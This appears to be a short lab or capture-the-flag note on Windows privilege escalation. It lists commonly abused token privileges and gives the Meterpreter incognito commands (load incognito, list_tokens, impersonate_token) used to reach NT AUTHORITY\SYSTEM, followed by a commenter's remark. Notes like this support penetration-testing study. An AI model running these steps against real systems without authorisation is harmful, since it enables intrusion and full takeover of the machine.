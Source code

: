We use whoami /priv on the compromised box to enumerate priviledges.

Commonly abused privs:

-   SeImpersonatePrivilege
-   SeAssignPrimaryPrivilege
-   SeTcbPrivilege
-   SeBackupPrivilege
-   SeRestorePrivilege
-   SeCreateTokenPrivilege
-   SeLoadDriverPrivilege
-   SeTakeOwnershipPrivilege
-   SeDebugPrivilege


---

We see that SeDebug and SeImpersonate are enabled
We can use the incognito module to exploit this
Use this command in meterpreter:
`load incognito`

---

Check which tokens are available
`list_tokens -g`

BUILTIN\Administrators is available

`impersonate_token "BUILTIN\Administrators"`

Run `getuid`
We are now NT AUTHORITY\SYSTEM

---

Next we need to migrate, preferably to services.exe
Now we have a root shell



adubs808: SeImpersonate is a good sign of a privesc vector. Usually service accounts will have that ability.

